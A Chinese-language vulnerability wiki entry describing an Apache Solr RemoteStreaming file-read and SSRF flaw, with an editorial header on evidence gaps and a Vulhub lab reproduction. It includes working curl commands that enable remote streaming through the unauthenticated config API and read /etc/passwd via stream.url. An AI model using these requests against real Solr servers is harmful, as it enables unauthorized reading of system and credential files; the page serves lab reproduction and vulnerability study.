



# Apache Solr RemoteStreaming 文件读取与SSRF漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：未开启认证/Config API可写，演示8.8.1、有core与dump handler
- 证据范围：两条curl参数准确，比203/204等损坏转载更适合作主条目；只实际展示文件读取。

### 本次正文校订

- 按实际内容修正 3 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- core称数据库名不准确，应统一术语
- 标题SSRF没有独立网络请求证据，需标功能推导或补原证据
- 缺配置恢复、运行权限和安全访问控制说明

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Apache Solr 是一个开源的搜索服务器。在Apache Solr未开启认证的情况下，攻击者可直接构造特定请求开启特定配置，并最终造成SSRF或任意文件读取。

参考链接：

- https://mp.weixin.qq.com/s/3WuWUGO61gM0dBpwqTfenQ

## 环境搭建

Vulhub执行如下命令启动solr 8.8.1：

```shell
docker-compose up -d
```

环境启动后，访问`http://your-ip:8983`即可查看Apache Solr后台。

## 漏洞复现

首先，访问`http://your-ip:8983/solr/admin/cores?indexInfo=false&wt=json`获取数据库名：




发送如下数据包，修改数据库`demo`的配置，开启`RemoteStreaming`：

```shell
curl -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' --data-binary $'{\"set-property\":{\"requestDispatcher.requestParsers.enableRemoteStreaming\":true}}' \
    $'http://your-ip:8983/solr/demo/config'
```




再通过`stream.url`读取任意文件：

```shell
curl -i -s -k 'http://your-ip:8983/solr/demo/debug/dump?param=ContentStreams&stream.url=file:///etc/passwd'
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
